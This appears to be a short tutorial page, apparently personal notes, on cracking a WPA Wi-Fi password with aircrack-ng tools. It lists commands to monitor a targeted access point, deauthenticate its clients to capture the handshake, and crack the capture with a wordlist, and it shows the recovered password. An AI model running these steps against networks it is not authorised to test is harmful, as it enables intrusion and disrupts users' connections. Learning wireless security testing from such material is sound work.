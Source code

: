 `sudo airmon-ng check kill`  
So as to kill processes that might disturb network monitoring.  

`sudo airodump-ng wlan0mon`
network monitoring with `wlan0mon`  NIC  (network interface card)  
![Dear image, I hope you'll work how I... imagine](./img/airodump-ng-1.png)

`sudo airodump-ng --bssid BA:18:69:CC:1E:61 -c 11 --write WPAcrack wlan0mon`  
`--bssid` Target's MAC, `-c` channel, `--write` output name (WPA hash for cracking later)  
![Mama dala corce bulke](./img/airodump-ng-2.png)

`sudo aireplay-ng --deauth 30 -a BA:18:69:CC:1E:61 wlan0mon`  
`--deauth 30` We're sending 30 packets so as to break connection for a while  
Because of this we'll be able to capture handshake (and password hash for later cracking)  
![nasmarowana maslem](./img/airodump-ng-3.png)

`sudo aircrack-ng WPAcrack-01.cap -w rockyou_50.txt`  password hash cracking
![wcinaj](./img/aircrack-ng-1.png)

Password: 123456qwerty  


`dhcpclient eth0`  after wifi hacking NIC might have some problems. This command might help
